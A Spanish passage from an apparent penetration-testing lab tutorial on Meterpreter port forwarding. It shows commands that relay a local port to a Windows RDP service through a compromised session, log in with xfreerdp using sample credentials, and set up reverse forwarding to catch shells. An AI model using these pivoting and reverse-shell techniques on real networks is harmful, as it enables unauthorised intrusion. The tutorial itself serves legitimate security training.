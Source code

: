 #### Opciones de puerto

Túneles y reenvío de puertos de Meterpreter

```python
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.
```

#### Creación de retransmisión TCP local

Túneles y reenvío de puertos de Meterpreter

```python
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

El comando anterior solicita a la sesión de Meterpreter que inicie un detector en el puerto local de nuestro host de ataque ( `-l`) `3300` y reenviar todos los paquetes al control remoto ( `-r`) Servidor de windows `172.16.5.19` en `3389` puerto ( `-p`) a través de nuestra sesión de Meterpreter. Ahora, si ejecutamos xfreerdp en nuestro localhost:3300, podremos crear una sesión de escritorio remoto.

#### Conexión a Windows Target a través de localhost

Túneles y reenvío de puertos de Meterpreter

```python
G41i130Q@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

## Reenvío de puerto inverso de Meterpreter

De manera similar a los reenvíos de puertos locales, Metasploit también puede realizar `reverse port forwarding`con el siguiente comando, donde es posible que desee escuchar en un puerto específico en el servidor comprometido y reenviar todos los shells entrantes desde el servidor Ubuntu a nuestro host de ataque. Iniciaremos un escucha en un nuevo puerto en nuestro host de ataque para Windows y solicitaremos al servidor Ubuntu que reenvíe todas las solicitudes recibidas al servidor Ubuntu en el puerto. `1234` a nuestro oyente en el puerto `8081`.

Podemos crear un puerto inverso hacia adelante en nuestro shell existente del escenario anterior usando el siguiente comando. Este comando reenvía todas las conexiones en el puerto `1234` ejecutándose en el servidor Ubuntu a nuestro host de ataque en el puerto local ( `-l`) `8081`. También configuraremos nuestro oyente para escuchar en el puerto 8081 para un shell de Windows.
